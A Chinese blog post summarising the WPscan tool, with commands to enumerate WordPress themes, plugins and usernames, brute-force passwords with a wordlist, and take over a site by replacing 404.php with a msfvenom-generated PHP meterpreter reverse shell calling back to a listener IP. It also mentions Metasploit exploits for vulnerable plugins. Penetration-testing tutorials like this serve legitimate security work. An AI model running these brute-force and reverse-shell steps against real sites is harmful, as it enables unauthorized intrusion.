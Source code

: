 ```yaml
---
layout:     post
title:      WPscan使用总结
subtitle:   WPscan使用总结
date:       2019-09-05
author:     木已成舟
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 工具使用
---
```

## 前言
最近在给某省教育厅的资产进行扫描时，发现一些网站建站程序用的是WordPress，于是就有了本文，本文主要记录了WPscan的一些用法；
## 更新wpscan
在使用WPscan前，它需要你更新到最新版本：
```
ruby wpscan.rb --update
```
![图片](../../../../img/wpscan_1.png)
## 扫描WorePress版本
扫描Wordpress搭建的网站：
```
wpscan -u http://127.0.0.1/
```
## 枚举WordPress主题
通过以下命令枚举网站安装的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate t
```
## 枚举WordPress易受攻击的主题
通过以下命令枚举网站安装的易受攻击的WordPress主题：
```
wpscan -u http://127.0.0.1/ --enumerate vt
```
## 枚举WordPress插件
通过以下命令枚举网站安装的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate p
```
## 枚举WordPress易受攻击的插件
通过以下命令枚举网站安装的易受攻击的WordPress插件：
```
wpscan -u http://127.0.0.1/ --enumerate vp
```
## 枚举WordPress用户名
通过以下命令枚举网站的用户名：
```
wpscan -u http://127.0.0.1/ --enumerate u
```
下图可以看到成功获取到了7个用户名：
## ![图片](../../../../img/wpscan_2.png)

## 使用Wpscan进行暴力攻击
通过上面的枚举用户名步骤，我们已知了用户名，因此只差爆破密码，输入以下命令开始爆破密码：
```
wpscan -u http://127.0.0.1/ --wordlist /root/Desktop/dict.txt --username test
```

## 一行命令枚举插件、主题、用户
上面的命令还是比较繁琐的，我们可以通过以下一行命令，“一键”枚举插件、主题、用户：
```
wpscan -u http://127.0.0.1/ -e at -e ap -e u
```
at：枚举目标网站的所有主题
ap：枚举目标网站的所有插件
u：枚举目标网站的所有用户名
## WordPress 后台Getshell
当我们通过一些弱口令/漏洞利用，进入后台后，通过后台拿WebShell的方法，这里推荐进入外观--编辑([http://127.0.0.1](http://127.0.0.1)[/wp-admin/theme-editor.php)](http://www.test.me/wp-admin/theme-editor.php))--修改404.php的代码(使用msfvenom生成php反弹shell)
```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f raw
```
![图片](../../../../img/wpscan_3.png)

## 使用Metasploit利用易受攻击的插件
当我们通过WPscan扫到红色感叹号的提示信息时，我们可以搜索msf中是否存在这个利用脚本，来达到获取Shell的目的，下图是真实环境中某站存在的一个漏洞：
![图片](../../../../img/wpscan_4.png)

![图片](../../../../img/wpscan_5.png)

